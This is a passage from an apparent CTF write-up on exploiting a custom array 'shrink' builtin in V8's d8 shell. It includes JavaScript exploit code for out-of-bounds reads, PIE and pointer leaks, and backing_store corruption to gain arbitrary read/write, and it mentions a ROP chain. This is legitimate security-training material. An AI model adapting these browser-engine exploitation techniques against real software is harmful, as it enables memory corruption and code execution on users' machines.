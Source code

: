 ```js

// Overwrite backing_store pointer
arr[30] = itof((BigInt(got_pkey_set & 0xffffffffn) << 32n));
arr[31] = itof(got_pkey_set >> 32n);

let libc_pkey_set = dataview.getBigUint64(0, true);
console.log("libc_pkey_set: " +  libc_pkey_set.toString(16));

// OUT:
// PIE Leak: 0x5e0325bbe830
// PIE Base: 0x5e0324a4a000
// backing_store: 0x5e03323ad4d0
// got_pkey_set: 5e03272f59d8
// libc_pkey_set: 7b060ff26290
```

Unfortunately, this code only works maybe once in four tries for reasons that are beyond my comprehension.

Regardless, we now have arbitrary read/write by using either `dataview.getBigUint64` or `dataview.setBigUint64`!

With this, I finished the exploit off by leaking `environ` from libc to get a stack pointer and overwriting the stack with a ROP chain:

```js
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { f64_buf[0] = val; return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); }

function itof(val) { u64_buf[0] = Number(val & 0xffffffffn); u64_buf[1] = Number(val >> 32n); return f64_buf[0]; }

let arr = new Array(2000).fill(1.1);
evil = { valueOf() { for (let i = 0; i < 1999; i++) { arr.pop(); } return 1999; } };
arr.shrink(evil)

let arrs = new Array()

let idx_25 = ftoi(arr[25]);
while ((idx_25 & 0xfffn) != 0x830n) {
  arrs.push(new ArrayBuffer(8));
  idx_25 = ftoi(arr[25]);
}

let idx_31 = ftoi(arr[31]);
while ((idx_31 & 0xf000n) != 0x5000n && (idx_31 & 0xf000n) != 0x6000n) {
  arrs.push(new ArrayBuffer(8));
  idx_31 = ftoi(arr[31]);
}

// Leak the code pointer we saw at idx 25
let pie_leak = ftoi(arr[25]);
console.log('PIE Leak: 0x' + pie_leak.toString(16));

// Calculate base address of d8 binary
let pie_base = pie_leak - BigInt(0x1174830);
console.log('PIE Base: 0x' + pie_base.toString(16));

// Leak the backing_store pointer of the arrs[0] DataView
let backing_store = (ftoi(arr[30]) >> 32n) + ((ftoi(arr[31]) & 0xffffffffn) << 32n);
console.log('backing_store: 0x' + backing_store.toString(16));

```